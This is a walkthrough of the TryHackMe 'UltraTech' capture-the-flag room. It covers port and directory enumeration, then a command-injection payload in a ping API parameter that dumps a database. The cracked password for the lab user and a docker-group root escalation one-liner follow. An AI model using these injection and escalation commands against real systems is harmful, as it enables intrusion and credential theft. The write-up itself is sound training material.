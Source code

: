 ```yaml
---
title: "UltraTech CTF - TryHackMe"
category: "THM"
pubDate: 2020-06-14
description: "Writeup for the UltraTech CTF room on TryHackMe"
---
```

[TryHackMe | UltraTech CTF](https://tryhackme.com/room/ultratech1)

This room is inspired from real-life vulnerabilities and misconfigurations I encountered during security assessments.

If you get stuck at some point, take some time to keep enumerating.

**[ Your Mission ]**

You have been contracted by UltraTech to pentest their infrastructure.

It is a grey-box kind of assessment, the only information you have

is the company's name and their server's IP address.

**Start this room by hitting the "deploy" button on the right!**

Good luck and more importantly, have fun!

# Part 1

After enumerating the services and resources available on this machine, what did you discover?

---

### Setup ✅

```
➜  TryHackMe nmap -A -vv 10.10.124.2
```

```
21/tcp   open  ftp     syn-ack vsftpd 3.0.3

22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDiFl7iswZsMnnI2RuX0ezMMVjUXFY1lJmZr3+H701ZA6nJUb2ymZyXusE/wuqL4BZ+x5gF2DLLRH7fdJkdebuuaMpQtQfEdsOMT+JakQgCDls38FH1jcrpGI3MY55eHcSilT/EsErmuvYv1s3Yvqds6xoxyvGgdptdqiaj4KFBNSDVneCSF/K7IQdbavM3Q7SgKchHJUHt6XO3gICmZmq8tSAdd2b2Ik/rYzpIiyMtfP3iWsyVgjR/q8oR08C2lFpPN8uSyIHkeH1py0aGl+V1E7j2yvVMIb4m3jGtLWH89iePTXmfLkin2feT6qAm7acdktZRJTjaJ8lEMFTHEijJ
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLy2NkFfAZMY462Bf2wSIGzla3CDXwLNlGEpaCs1Uj55Psxk5Go/Y6Cw52NEljhi9fiXOOkIxpBEC8bOvEcNeNY=
|   256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEipoohPz5HURhNfvE+WYz4Hc26k5ObMPnAQNoUDsge3

8081/tcp open  http    syn-ack Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesnt have a title (text/html; charset=utf-8).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### #1 Which software is using the port 8081?

```
8081/tcp open  http    syn-ack Node.js Express framework
```

```
node.js
```

### #2 Which other non-standard port is used?

Since on our first nmap scan we didn't find the port let's scan all the ports

```
➜  ~ TryHackMe nmap -A -vv -p- 10.10.124.2
```

```
31331/tcp open
```

### #3 Which software using this port?

```
apache
```

### #4 Which GNU/Linux distribution seems to be used?

```
ubuntu
```

### #5 The software using the port 8080 is a REST api, how many of its routes are used by the web application?

![](https://imgur.com/HJrW4R2.png)

```
➜  TryHackMe gobuster dir -u http://10.10.124.2:8081/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.124.2:8081/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/13 17:44:16 Starting gobuster
===============================================================
/auth (Status: 200)
```

![](https://imgur.com/8hEyF02.png)

# Part 3

---

Now that you know which services are available, it's time to exploit them !

Did you find somewhere you could try to login ? Great !

Quick and dirty login implementations usually goes with poor data management.

There must be something you can do to explore this machine more thoroughly..

### #1 There is a database lying around, what is its filename?

![](https://imgur.com/tuO0kgU.png)

```
➜  TryHackMe dirb http://10.10.124.2:31331/
```

```
➜  TryHackMe dirb http://10.10.124.2:31331/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat Jun 13 18:30:24 2020
URL_BASE: http://10.10.124.2:31331/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.124.2:31331/ ----
==> DIRECTORY: http://10.10.124.2:31331/css/
+ http://10.10.124.2:31331/favicon.ico (CODE:200|SIZE:15086)
==> DIRECTORY: http://10.10.124.2:31331/images/
+ http://10.10.124.2:31331/index.html (CODE:200|SIZE:6092)
==> DIRECTORY: http://10.10.124.2:31331/javascript/
==> DIRECTORY: http://10.10.124.2:31331/js/
+ http://10.10.124.2:31331/robots.txt (CODE:200|SIZE:53)
+ http://10.10.124.2:31331/server-status (CODE:403|SIZE:302)
```

![](https://imgur.com/JwcnH47.png)

```
Sitemap: /utech_sitemap.txt
```

![](https://imgur.com/0QGLxrF.png)

![](https://imgur.com/4oxDK1P.png)

As you can see there is some script on the bottom of the page

![](https://imgur.com/bHSVNrk.png)

```
function getAPIURL() {
return `${window.location.hostname}:8081`
function checkAPIStatus() {
const req = new XMLHttpRequest();
const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
```

Let's try if we can ping something with the api

![](https://imgur.com/k6dMvGz.png)

![](https://imgur.com/NiZaChE.png)

```
utech.db.sqlite
```

### #2 What is the first user's password hash?

After some tries, something cool happened, if we cat the database name we can see the user's password hash

```
http://10.10.124.2:8081/ping?ip=`cat%20utech.db.sqlite`
```

![](https://imgur.com/BFY62ek.png)

```
r00tf357a0c52799563c7c7b76c1e7543a32
```

### #3 What is the password associated with this hash?

Let's see if in the crack station database we can have the user's password

![](https://imgur.com/ULh9XYu.png)

Yep ! That worked 🤤

```
password : n100906
```

# Part 4

---

Congrats if you've made it this far, you should be able to comfortably run commands on the server by now!

Now's the time for the final step!

You'll be on your own for this one, there is only one question and there might be more than a single way to reach your goal.

Mistakes were made, take advantage of it.

---

### #1 What are the first 9 characters of the root user's private SSH key?

We can try the api "/auth" 😵

![](https://imgur.com/hQLygDy.png)

```
http://10.10.124.2:8081/auth?login=r00t&password=n100906
```

![](https://imgur.com/k8UD4e5.png)

As you can see the is the group docker let's try something

[docker | GTFOBins](https://gtfobins.github.io/gtfobins/docker/)

```
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

![](https://imgur.com/dlyIsfn.png)

![](https://imgur.com/WZFA2m7.png)

```
MIIEogIBA
```